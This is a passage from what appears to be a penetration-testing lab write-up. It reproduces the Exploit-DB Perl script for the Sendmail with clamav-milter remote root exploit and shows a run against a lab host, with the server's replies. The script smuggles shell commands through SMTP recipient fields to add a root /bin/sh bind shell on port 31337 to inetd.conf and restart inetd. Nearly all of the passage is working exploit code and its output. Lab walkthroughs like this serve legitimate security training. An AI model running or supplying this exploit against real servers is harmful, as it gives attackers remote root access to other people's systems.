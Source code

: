 * I like the highlighted one as it makes the most sense since SMTP on port 25 is open.

### [4761.pl](http://4761.pl):

Location:

/usr/share/exploitdb/exploits/multiple/remote/4761.pl

```
### black-hole.pl
### Sendmail w/ clamav-milter Remote Root Exploit
### Copyright (c) 2007 Eliteboy
########################################################
use IO::Socket;

print "Sendmail w/ clamav-milter Remote Root Exploit\\n";
print "Copyright (C) 2007 Eliteboy\\n";

if ($#ARGV != 0) {print "Give me a host to connect.\\n";exit;}

print "Attacking $ARGV[0]...\\n";

$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                              PeerPort => '25',
                              Proto    => 'tcp');

print $sock "ehlo you\\r\\n";
print $sock "mail from: <>\\r\\n";
print $sock "rcpt to: <nobody+\\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\\"@localhost>\\r\\n";
print $sock "rcpt to: <nobody+\\"|/etc/init.d/inetd restart\\"@localhost>\\r\\n";
print $sock "data\\r\\n.\\r\\nquit\\r\\n";

while (<$sock>) {
        print;
}
```

* We see that this is a perl script, so we run it with perl:

```python
perl 4761.pl

Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.238.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Wed, 24 Aug 2022 00:40:40 -0400; (No UCE/UBE) logging access from: [192.168.49.238](FAIL)-[192.168.49.238]
250-localhost.localdomain Hello [192.168.49.238], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 27O4eee3004091 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```